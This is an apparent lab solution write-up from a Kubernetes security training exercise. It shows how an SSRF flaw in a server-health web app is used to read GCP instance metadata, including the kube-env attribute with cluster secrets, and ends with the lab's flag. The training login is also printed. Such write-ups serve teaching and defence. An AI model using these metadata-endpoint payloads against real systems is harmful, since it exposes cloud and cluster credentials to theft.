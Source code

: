 # Attacking Kubernetes cluster Metadata using application SSRF vulnerability - Solution

* Navigate to the application `http://server-health.oss-k8s-security.cloudsec.training`

* Login to the application using `username: serveradmin` and `password: monitorworld`

![](images/app-login.png)

* The application supports functionality to check server health. Let's give `https://icanhazip.com` to check the public IP address

![](images/check-ip.png)

* As this setup is running on GCP, we can query the internal metadata using the standard endpoint `http://169.254.169.254/computeMetadata/v1/`

![](images/internal-metadata.png)

* Similarly we can query all the sensitive information, including the Kubernetes secrets and other information related to Cloud Platform `http://169.254.169.254/computeMetadata/v1/instance/attributes/kube-env`

![](images/kube-env-metadata.png)

* Also, we can find the flag by `http://169.254.169.254/computeMetadata/v1/instance/attributes/flag`

```bash
59a4c760306d682ca75d690bebb9db0e
```

![](images/flag-metadata.png)
